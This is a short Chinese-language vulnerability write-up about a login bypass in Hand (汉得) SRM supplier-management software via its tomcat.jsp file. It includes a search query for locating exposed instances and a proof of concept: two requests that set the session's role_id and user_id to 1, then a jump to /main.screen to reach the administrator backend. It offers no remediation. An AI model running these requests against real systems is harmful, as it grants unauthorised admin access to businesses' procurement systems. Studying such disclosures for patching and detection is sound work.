

# 汉得SRM tomcat.jsp 登陆绕过漏洞

## 漏洞描述

汉得SRM tomcat.jsp 文件存在登陆绕过漏洞, 攻击者通过发送请求包，可以获取后台管理员权限

## 漏洞影响

汉得SRM

## 网络测绘

```
web.body="汉得SRM"
```

## 漏洞复现

登陆页面


验证POC (Tomcat session操控)

```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```



访问跳转后台

```
/main.screen
```